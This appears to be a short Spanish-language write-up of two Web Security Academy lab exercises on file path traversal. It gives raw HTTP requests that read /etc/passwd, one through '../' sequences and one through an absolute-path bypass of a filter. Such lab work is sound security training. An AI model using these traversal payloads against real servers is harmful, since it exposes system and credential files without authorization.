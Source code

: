 # File path traversal, simple case

Para este laboratorio es el caso mas simple se ponen los puntos denotando un directorio atras en donde la web cargue un archivo y te muestra el 
/etc/passwd

```
GET /image?filename=../../../../../../etc/passwd HTTP/1.1
Host: 0a8200be041b466cc0f46aff00e000d3.web-security-academy.net
Cookie: session=wsnVR8iCU7MURckDcKT43ZatvLyTmC6e
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8200be041b466cc0f46aff00e000d3.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, traversal sequences blocked with absolute path bypass

Para este laboratorio los path absolutos estan bloqueados asi que intentamos poner el path directamente y funciona:

```
GET /image?filename=/etc/passwd HTTP/1.1
Host: 0a14004104e94cd0c06a7f3100620012.web-security-academy.net
Cookie: session=OPMimRA2dbPLCe0heGzelqwfgJ8s4CWx
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a14004104e94cd0c06a7f3100620012.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```


